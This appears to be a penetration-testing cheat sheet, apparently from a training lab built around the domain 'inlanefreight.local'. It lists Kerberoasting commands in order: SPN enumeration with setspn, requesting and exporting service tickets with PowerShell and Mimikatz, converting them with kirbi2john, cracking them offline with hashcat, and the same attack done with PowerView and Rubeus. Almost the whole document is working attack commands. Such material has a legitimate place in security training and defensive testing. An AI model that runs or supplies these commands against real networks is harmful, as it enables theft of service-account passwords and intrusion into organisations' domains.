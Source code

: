 ## Enumerating SPNs with setspn.exe
```
setspn.exe -Q */*
```

## Targeting a Single User (PowerShell)
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

## Retrieving All Tickets Using setspn.exe (PowerShell)
```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz
```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export
```

## Preparing the Base64 Blob for Cracking (Linux)
```
echo "<base64 blob>" | tr -d \n
```

## Placing the Output into a File as .kirbi (Linux)
```
cat encoded_file | base64 -d > sqldev.kirbi
```

## Extracting the Kerberos Ticket using kirbi2john.py (Linux)
```
python2.7 kirbi2john.py sqldev.kirbi
```

## Modifying crack_file for Hashcat (Linux)
```
sed 's/\$krb5tgs\$(.*):(.*)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

## Viewing the Prepared Hash (Linux)
```
cat sqldev_tgs_hashcat
```

## Cracking the Hash with Hashcat (Linux)
```
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

## Using PowerView to Extract TGS Tickets (PowerShell)
```
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

## Using PowerView to Target a Specific User (PowerShell)
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

## Exporting All Tickets to a CSV File (PowerShell)
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Viewing the Contents of the .CSV File (PowerShell)
```
cat .\ilfreight_tgs.csv
```

## Using Rubeus (PowerShell)
```
.\Rubeus.exe
```

## Using the /stats Flag (Rubeus)
```
.\Rubeus.exe kerberoast /stats
```

## Using the /nowrap Flag (Rubeus)
```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
